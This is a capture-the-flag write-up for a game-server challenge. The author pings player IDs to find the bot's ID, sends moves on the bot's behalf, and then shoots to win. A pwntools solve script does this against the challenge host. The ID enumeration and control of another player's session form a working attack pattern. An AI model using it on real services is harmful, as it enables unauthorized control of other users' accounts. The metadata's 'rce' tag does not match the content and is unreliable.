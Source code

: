```yaml
---
ai_date: '2025-04-27 05:21:20'
ai_summary: Exploits ping feature to find bot's ID, then moves bot and shoots to win
ai_tags:
- ping
- id-enum
- rce
created: 2024-08-02T18:24
points: 338
solves: 48
updated: 2024-08-04T13:59
---
```


The game goes like this.

1. Both players move with `PID|M|1;` (bot stops at position 3)
2. Game starts
3. Use `PID|S;` to shoot.
4. If both players are on the same position and that position is not 3, we win.

Obviously we have to move the bot away from 3 somehow.
To do this however we have to obtain the bot's id.

Retrying over and over again to hit a lucky id is not likely and probably very slow, so I will use the ping feature to find the bot's id.

We will ping every number until the server responds with `Pong`, ignore our own id, and we will get the bot's id.

We will then move our player and the bot by `1`, and then shoot.

## solve script

```python
import time
from pwn import *
context.log_level = "error"


def find_bot_id(s, pid):
    for i in range(100):
        s.send(f"{i}|P;".encode())
        data = s.recvuntil(b";", drop=True)
        if b'Pong' in data:
            print("ping found", i)
            if pid != i:
                return i


s = remote("challs.tfcctf.com", port=31994)
s.send(b"N|kumo;")
LAST_PING_TIME = time.time()
PLAYER_ID = -1
BOT_ID_GUESS = 69
while True:
    if time.time() - LAST_PING_TIME > 2 and PLAYER_ID != -1:
        s.send(f"{PLAYER_ID}|P;".encode())
        LAST_PING_TIME = time.time()
    data = s.recvuntil(b";", drop=True)
    print("received", data)
    if data[:1] == b"J":
        PLAYER_ID = int(data[2:])
        print("joined as", PLAYER_ID)
    if b'M|bot|' in data:
        print("bot moved!")
        s.send(f"{PLAYER_ID}|M|1;".encode())
    if b"G" in data:
        print("started!")
        bid = find_bot_id(s, PLAYER_ID)
        s.send(f"{PLAYER_ID}|M|1;".encode())
        s.send(f"{bid}|M|1;".encode())

        s.send(f"{PLAYER_ID}|S;".encode())
    if b'S|' in data:
        print("score", data)
```